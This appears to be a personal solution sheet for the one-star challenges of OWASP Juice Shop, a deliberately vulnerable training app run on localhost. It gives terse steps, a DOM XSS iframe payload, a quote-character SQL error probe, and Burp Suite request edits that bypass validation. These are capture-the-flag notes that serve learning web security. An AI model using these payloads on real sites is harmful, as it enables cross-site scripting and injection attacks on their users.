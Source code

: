 # OWASP Juice Shop<br>
## 1 STAR
### Score Board<br>
Firefox > Debugger > Search score > found: /score-board<br>

### Bully Chatbot<br>
Menu > Support Chat > Keep spamming coupong <br>

### DOM XSS<br>
search bar > <iframe src="javascript:alert(`xss`)"><br>

### Bonus Payload<br>
Search bar > <iframe width="100%" height="166" scrolling="no" frameborder="no" allow="autoplay" src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&auto_play=true&hide_related=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true"></iframe><br>

### Confidential Document<br>
http://localhost:3000/ftp > acquisitions.md<br>

### Error Handling<br>
Account Login > put ' in email and password fields<br>

### Exposed Metrics<br>
http://localhost:3000/metrics<br>

### Outdated Allowlist<br>
gospider -v -s http://127.0.0.1:3000/ -o gospider_output<br>
cd gospider_output
cat 127_0_0_1 | grep code-200<br>

### Missing Encoding<br>
change # to %23<br>
http://localhost:3000/assets/public/images/uploads/%F0%9F%98%BC-%23zatschi-%23whoneedsfourlegs-1572600969477.jpg<br>

### Zero Stars<br>
http://localhost:3000/#/contact<br>
burp proxy > repeater > rating:0<br>

### Repetitive Registration<br>
http://localhost:3000/#/register<br>
burp proxy > repeater > passwordRepeat:""<br>
